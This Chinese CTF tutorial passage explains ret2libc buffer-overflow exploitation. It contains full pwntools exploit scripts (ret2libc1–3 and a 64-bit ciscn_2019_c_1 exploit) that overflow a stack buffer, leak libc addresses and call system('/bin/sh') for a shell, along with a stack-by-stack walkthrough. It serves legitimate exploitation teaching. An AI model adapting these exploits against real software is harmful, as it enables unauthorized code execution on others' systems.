1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 #ret2libc1 from pwn import * p = process('./ret2libc1') context.log_level = 'debug' system_addr = 0x08048460 binsh_addr = 0x8049720 p.recvuntil('RET2LIBC >_<\n') p.sendline('a'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)) p.interactive() #ret2libc2 from pwn import * p = process('./ret2libc2') buf2_addr = 0x804a080 gets_addr = 0x8048460 system_addr = 0x8048490 pop_ebx_addr = 0x0804843d p.recvuntil('What do you think ?') p.sendline('a'*112 + p32(gets_addr) + p32(pop_ebx_addr) + p32(buf2_addr) + p32(system_addr) + 'aaaa' + p32(buf2_addr)) p.sendline('/bin/sh\x00') p.interactive() #ret2libc3 from pwn import * from LibcSearcher import LibcSearcher p = process('./ret2libc3') context.log_level = 'debug' start_addr = 0x80484d0 puts_plt_addr = 0x8048460 libc_start_main_got_addr = 0x804a024 p.recvuntil('Can you find it !?') p.sendline('q'*112 + p32(puts_plt_addr) + p32(start_addr) + p32(libc_start_main_got_addr)) libc_start_main_addr = u32(p.recv(4)) print "__libc_start_main_addr: " + hex(libc_start_main_addr) libc = LibcSearcher('__libc_start_main', libc_start_main_addr) libcbase = libc_start_main_addr - libc.dump('__libc_start_main') system_addr = libcbase + libc.dump('system') binsh_addr = libcbase + libc.dump('str_bin_sh') + 0xb9 print "system_addr: " + hex(system_addr) print "binsh_addr: " + hex(binsh_addr) p.recvuntil('Can you find it !?') p.sendline('s'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)) p.interactive() 1：'a'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr) 2：'a'*112 + p32(gets_addr) + p32(pop_ebx_addr) + p32(buf2_addr) + p32(system_addr) + 'aaaa' + p32(buf2_addr) 3：'q'*112 + p32(puts_plt_addr) + p32(start_addr) + p32(libc_start_main_got_addr) 's'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)
现在我们来看看ret2libc2中的payload：’a’*112 + p32(gets_addr) + p32(pop_ebx_addr) + p32(buf2_addr) + p32(system_addr) + ‘aaaa’ + p32(buf2_addr)
首先，gets_addr代表gets函数的plt表地址，pop_ebx_addr代表pop eip 、retn这两条指令的地址，buf2_addr代表bss段上的buf2数组的初始地址，system_addr代表system函数的plt表地址，buf2_addr，依照我们的exp执行，此时的buf2上已经存储好了/bin/sh字段，system函数调用后就直接拿到shell。
接下来看过程：
1、此时栈上的数据排布已被payload覆盖成下图的模样
2、
3、pop ebp，ebp指向不存在的栈地址0x61616161
4、pop先取数据再增esp，下一条是jmp eip，不列了，没意义
5、此时我们进入先gets函数的plt，在之前的实操环节中，有一个结论：调用plt、got表前后，esp、ebp值不变，所以我们就当没有查plt、got表这一步，直接进入gets函数中执行，因为gets函数它也是函数，进入后第一件事那肯定是执行函数头嘛，所以有了下图
6、
7、and esp，0FFFFFFF0h，这步对齐操作直接略过吧，对结果毫无影响
8、接下来执行gets函数的函数中间部分，这里面会有三步关键操作：
1）：esp及esp往上的栈上数据作为参数传递给gets函数（注：经过之前的调试，得知这一步是在执行函数头前执行的，也就是第5步之前，所以gets函数中间部分理应只有以下两个操作）
2）：从外界读入一串字符（外界可以理解为缓冲区吧）
3）：以buf2_addr这一地址参数作为gets函数的字符容器，也就是把gets到的字符串存入bss段上的buf2（为什么选择buf2_addr这一参数？我又不是开发汇编的，我哪知道，这里就举个例子吧，就像上一个payload分析中system函数与/bin/sh要相隔一个”bbbb”一样，这里的gets函数和buf2_addr也相隔了一个单位的栈空间，暂时就这样理解吧，做pwn题知道这些就够了）
注：对于2）和3）先后执行哪个我现在还不清楚
下图中可以看到我们还给程序发送了一串字符，这串字符就是被上述gets读进buf2中的字符，/bin/sh与一个结尾标志符
9、
10、下一条是jmp eip，不列了，没意义
11、pop_ebx_addr的地址是0x0804843d，可以看到当PC指针跳转至这里开始执行时，会执行一个pop ebx和一个retn，接下来跟着执行就行
12、pop ebx
13、retn拆成pop eip与jmp eip，jmp eip意义不大，不列出
14、接下来调用system函数，并且以地址buf2_addr处的数据，即buf2上的/bin/sh作为参数进行相应操作，即get shell（获取最高权限）
15、分析完毕。
exp中payload分析3 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 #ret2libc3 from pwn import * from LibcSearcher import LibcSearcher p = process('./ret2libc3') context.log_level = 'debug' start_addr = 0x80484d0 puts_plt_addr = 0x8048460 libc_start_main_got_addr = 0x804a024 p.recvuntil('Can you find it !?') p.sendline('q'*112 + p32(puts_plt_addr) + p32(start_addr) + p32(libc_start_main_got_addr)) libc_start_main_addr = u32(p.recv(4)) print "__libc_start_main_addr: " + hex(libc_start_main_addr) libc = LibcSearcher('__libc_start_main', libc_start_main_addr) libcbase = libc_start_main_addr - libc.dump('__libc_start_main') system_addr = libcbase + libc.dump('system') binsh_addr = libcbase + libc.dump('str_bin_sh') + 0xb9 print "system_addr: " + hex(system_addr) print "binsh_addr: " + hex(binsh_addr) p.recvuntil('Can you find it !?') p.sendline('s'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)) p.interactive()
对于payload = ‘q’*112 + p32(puts_plt_addr) + p32(start_addr) + p32(libc_start_main_got_addr)
自行动手做做分析吧，昂 ^_^
exp中payload分析4(64位) 之前分析的都是32位的，这里简单分析一个64位的exp
exp来源：BUUCTF ciscn_2019_c_1_、moddemod的博客-CSDN博客
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 from pwn import * from LibcSearcher import * def encrypt(text:list): new_list = [] for i in text: if i <= 96 or i > 122: if i <= 64 or i > 90: if i > 47 and i <= 57: i ^= 0xF else: i ^= 0xE else: i ^= 0xD new_list.append(chr(i)) return ''.join(new_list) context.log_level = 'debug' proc_name = ['/home/moddemod/binary/ciscn_2019_c_1'] elf = ELF(proc_name[0]) p = process(proc_name) # p = remote('node3.buuoj.cn', 26038) p.recv() p.sendline('1') p.recv() pop_rdi_ret = 0x400c83 got_puts = elf.got['puts'] plt_puts = elf.plt['puts'] main_addr = elf.symbols['main'] payload = 0x58 * b'a' + p64(pop_rdi_ret) + p64(got_puts) + p64(plt_puts) + p64(main_addr) p.sendline(encrypt(list(payload))) # p.recv() print(p.recvuntil('\n')) print(p.recvuntil('\n')) puts_real_addr = u64(p.recvuntil('\n', drop=True).ljust(8, b'\x00')) libc = LibcSearcher('puts', puts_real_addr) libc_base = puts_real_addr - libc.dump('puts') p.sendline('1') p.recvuntil('encrypted\n') system_addr = libc_base + libc.dump('system') bin_sh_addr = libc_base + libc.dump('str_bin_sh') ret = 0x4006b9 payload = b'9' * 0x58 + p64(ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) p.sendline(payload) p.interactive()
可以看到我们构造了两句payload
1 2 3 payload = 0x58 * b'a' + p64(pop_rdi_ret) + p64(got_puts) + p64(plt_puts) + p64(main_addr) payload = b'9' * 0x58 + p64(ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)
这里再把32位的列举出来做对比
1 2 3 payload = 'q' *112 + p32(puts_plt_addr) + p32(start_addr) + p32(libc_start_main_got_addr) payload = 's' *112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)
可见，仅是多出了一步与rdi相关的操作（因为64位程序将前6个参数分别存至RDI, RSI, RDX, RCX, R8 和 R9这六个寄存器，只有参数超过6个的情况才会将多余的参数入栈）
栈对齐 暂无